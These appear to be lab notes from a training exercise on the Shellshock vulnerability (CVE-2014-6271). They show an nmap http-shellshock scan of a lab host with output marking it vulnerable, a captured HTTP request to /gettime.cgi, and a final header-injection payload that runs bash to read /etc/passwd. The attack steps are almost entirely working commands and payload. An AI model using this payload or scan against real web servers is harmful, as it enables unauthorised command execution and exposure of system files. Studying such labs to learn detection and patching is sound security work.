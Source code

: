 [http-shellshock](https://nmap.org/nsedoc/scripts/http-shellshock.html)

```
http://192.63.27.3/gettime.cgi
```

```
nmap -sV --script http-shellshock --script-args uri=/gettime.cgi 192.63.27.3
```

```
root@attackdefense:~# nmap -sV --script http-shellshock --script-args uri=/gettime.cgi 192.63.27.3
Starting Nmap 7.70 ( https://nmap.org ) at 2022-10-17 09:22 IST
Nmap scan report for target-1 (192.63.27.3)
Host is up (0.000010s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
|_http-server-header: Apache/2.4.6 (Unix)
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known as Shellshock. It seems the server
|       is executing commands injected via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://seclists.org/oss-sec/2014/q3/685
MAC Address: 02:42:C0:3F:1B:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds

```

```
GET /gettime.cgi HTTP/1.1
Host: 192.63.27.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

```
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```
